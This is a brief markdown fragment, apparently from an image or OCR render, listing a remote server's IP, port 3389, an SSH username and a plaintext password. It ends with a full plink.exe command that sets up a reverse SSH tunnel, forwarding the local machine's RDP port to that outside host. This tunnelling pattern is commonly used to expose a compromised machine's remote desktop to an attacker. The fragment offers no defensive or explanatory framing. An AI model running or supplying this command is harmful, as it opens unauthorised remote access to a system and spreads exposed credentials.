 **Server IP**: 136.130.190.181  
**Port**: 3389  
**Connection type**: ssh  
**Username**: $had0w  
**Password**: thruthW!llS3tUfree  

**Full command**: plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181
